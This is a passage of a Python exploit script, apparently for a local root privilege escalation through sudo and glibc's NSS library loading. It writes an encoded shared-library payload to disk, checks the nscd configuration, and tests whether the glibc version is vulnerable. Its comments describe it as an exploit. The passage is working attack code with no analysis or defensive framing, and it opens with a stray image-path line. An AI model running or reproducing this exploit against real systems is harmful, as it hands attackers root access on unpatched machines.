 	libx_b64 = 'eNqrd/VxY2JkZIABZgY7BhBPACrkwIAJHBgsGJigbJAydgbcwJARlWYQgFBMUH0boMLodAIazQGl\neWDGQM1jRbOPDY3PhcbnZsAPsjIjDP/zs2ZlRfCzGn7z2KGflJmnX5zBEBASn2UdMZOfFQDLghD3'
	with open(so_path, 'wb') as f:
		f.write(zlib.decompress(base64.b64decode(libx_b64)))
	#os.chmod(so_path, 0o755)

def check_nscd_condition():
	if not os.path.exists('/var/run/nscd/socket'):
		return True # no socket. no service
	
	# try connect
	import socket
	sk = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
	try:
		sk.connect('/var/run/nscd/socket')
	except:
		return True
	else:
		sk.close()

	with open('/etc/nscd.conf', 'r') as f:
		for line in f:
			line = line.strip()
			if not line.startswith('enable-cache'):
				continue # comment
			service, enable = line.split()[1:]
			# in fact, if only passwd is enabled, exploit with this method is still possible (need test)
			# I think no one enable passwd but disable group
			if service == 'passwd' and enable == 'yes':
				return False
			# group MUST be disabled to exploit sudo with nss_load_library() trick
			if service == 'group' and enable == 'yes':
				return False
			
	return True

def get_libc_version():
	output = subprocess.check_output(['ldd', '--version'], universal_newlines=True)
	for line in output.split('\n'):
		if line.startswith('ldd '):
			ver_txt = line.rsplit(' ', 1)[1]
			return list(map(int, ver_txt.split('.')))
	return None

def check_libc_version():
	version = get_libc_version()
	assert version, "Cannot detect libc version"
	# this exploit only works which glibc tcache (added in 2.26)
	return version[0] >= 2 and version[1] >= 26

